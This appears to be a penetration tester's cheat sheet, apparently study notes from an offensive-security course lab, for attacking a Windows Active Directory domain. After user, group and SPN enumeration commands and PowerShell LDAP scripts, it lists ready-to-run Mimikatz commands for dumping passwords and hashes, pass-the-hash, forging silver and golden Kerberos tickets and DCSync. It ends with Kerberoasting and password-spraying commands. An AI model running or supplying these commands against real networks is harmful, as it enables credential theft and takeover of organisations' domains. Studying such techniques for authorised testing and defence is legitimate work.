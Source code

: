 # Enumeration
**Enumerate local accounts**
`net user`

**Enumerate users within the entire domain**
`net user /domain`

**Enumerate user information within a domain**
`net user someone /domain`

**Enumerate Groups within a domain**
`net group /domain`

**Enumerate accounts**
`net accounts`

### Powershell Methods
**Get Current Domain Name**
`[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`

**Script to search for things within the Domain **
```
# This is only an example. Keep in mind, you can view $prop to filter out whatever you want in the same fashion of what is done here

$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter=""
$Result = $Searcher.FindAll()
Write-Host "All systems with Windows 10 and their version: "
Foreach($obj in $Result)
{

    Foreach($prop in $obj.Properties)
    { 
        if($prop.operatingsystem -match 'Windows 10')
        {
            Write-Host($prop.cn,"-",$prop.operatingsystem)
            Write-Host " "
        }

    }
}
```

*You can add `$Searcher.filter="name=Jeff_Admin"` as a filter*

**Script to search SPNs**
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```

**Script to search all groups and their nested levels**
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain

function RecurGroup($n,$d)
{

    "$("   "*$d)$n"
    $Searcher.filter="(name=$n)"
    $Result=$Searcher.FindAll()
    Foreach ($obj in $Result)
    {
        $mem=$obj.Properties.member
        if ($mem)
        {
            $memr=($mem.Split(',') -match "CN").Split("=")[1]
            $d++   
            if ($depth -lt 14)
            {
                RecurGroup $memr $d   
            }
        }   
    }
}
$Searcher.filter="(objectClass=Group)"
$Result = $Searcher.FindAll()
Write-Host "Groups and Their Members"
$cns=@()
Foreach($obj in $Result)
{
    $cns+=($obj.Properties.name)
}

Foreach($i in $cns)
{   
    RecurGroup $i 0
}
```

## PowerView
**Logged on users on some computer**
```
Get-NetLoggedon -ComputerName client251
```

**Logging in Sessions on some computer**
```
Get-NetSession -ComputerName dc01
```

## Get-SPN
```
Get-SPN -type service -search "*" -List yes | Format-Table -AutoSize
```

## Mimikatz
```
mimikatz.exe
privilege::debug (Engage SeDebugPrivilege)
sekurlsa::logonpasswords (Dump hashes)

[Kerberos]
sekurlsa::tickets
kerberos::list /export (export tickets)

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

[pass the ticket]
silver ticket
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt 
To obtain SID - whoami /user (dont take the last 4 bytes. they are relative)

[Dumps krbtgt pass for golden ticket over all domains via domain controller]
lsadump::lsa /patch

kerberos::purge to delete tickets

lsadump::dcsync /user:Administrator
[Dumps all hashes after syncing with a domain controller via replication]
```

## Service Accounts
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

then klist to check
```

## Password Spraying
```
Spray-Passwords.ps1 -File pass.txt -Admins
```
